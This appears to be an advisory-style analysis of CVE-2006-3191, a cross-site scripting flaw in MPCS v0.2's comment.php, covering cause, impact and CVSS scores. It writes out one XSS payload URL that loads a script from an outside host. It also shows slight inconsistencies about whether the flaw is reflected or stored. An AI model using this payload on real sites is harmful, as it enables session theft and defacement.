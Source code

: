 Based on the provided content, here's an analysis of the vulnerability related to CVE-2006-3191:

**Root Cause of Vulnerability:**
The root cause is the lack of proper input sanitization in the `comment.php` file of MPCS v0.2. Specifically, the vulnerability occurs when user-supplied input, including malicious JavaScript, is inserted into the comments section of the application without adequate filtering or encoding.

**Weaknesses/Vulnerabilities Present:**
- **Cross-Site Scripting (XSS):** The primary vulnerability is reflected XSS. Attackers can inject malicious JavaScript code into the `pageid` parameter of the `comment.php` URL. This script is then reflected back to the user when they view the comments page.
- **Full Path Disclosure:** The description indicates "full path disclosure" along with XSS, although the description lacks detail on this and it is not included in the CVE.
- **Cookie Manipulation:** The description indicates a cookie manipulation capability, although this is not detailed and not included in the CVE.

**Impact of Exploitation:**
- **Partial Integrity Impact:** Successful exploitation can lead to the modification of the displayed content on the affected page and can execute arbitrary JavaScript code in the user's browser.
- **No Confidentiality or Availability Impact:** The CVE specifically notes that there is no impact to confidentiality or availability.
- **Potential for further attacks**: With the ability to execute JavaScript in the victim's browser, the attacker could redirect the user to a malicious site, steal session cookies, perform keylogging, or deface the website.

**Attack Vectors:**
- The attack vector is through a crafted URL. The attacker constructs a URL that includes malicious JavaScript code in the `pageid` parameter of `comment.php`.
- The vulnerable URL is of the form: `http://www.example.com/comment.php?pageid=12 <script src=http://www.youfucktard.com/xss.js></script>`
- When a user visits the page, the injected script is executed in their browser.

**Required Attacker Capabilities/Position:**
- **Remote Position:** The attacker can exploit this vulnerability remotely.
- **No Authentication Required:** No authentication is required to exploit the vulnerability, as the `comment.php` does not require user login to be accessed.
- **Medium Attack Complexity:** The attacker needs to craft a specific URL with the malicious JavaScript.

**Additional Information:**
- The provided exploit example uses an external script (`http://www.youfucktard.com/xss.js`).
- The vulnerability details include links to screenshots of the exploit in action.
- The exploit is described as being triggered when a comment is posted on the page with the injected script.

**CVSS Metrics:**
- Base Score: 4.3/10
- Impact Subscore: 2.9/10
- Exploitability Subscore: 8.6/10
- Exploit range: Remote
- Attack complexity: Medium
- Authentication: No required
- Confidentiality impact: None
- Integrity impact: Partial
- Availability impact: None
